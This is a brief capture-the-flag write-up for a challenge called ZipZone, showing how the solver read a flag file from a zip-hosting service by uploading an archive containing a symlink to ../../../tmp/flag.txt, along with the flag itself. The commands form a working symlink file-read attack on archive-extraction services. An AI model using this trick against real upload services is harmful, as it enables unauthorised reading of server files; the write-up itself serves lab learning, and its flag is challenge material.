 # ZipZone
Solved by **yappare**

## Question
I was tired of trying to find a good file server for zip files, so I made my own! It's still a work in progress, but I think it's pretty good so far.

## Solution

```
ln -s ../../../tmp/flag.txt itik
 zip --symlinks itik.zip itik
 ```
- then upload itik.zip
- download the file from the provided UUID 
- got flag

### Flag
`CSCTF{5yml1nk5_4r3_w31rd}`
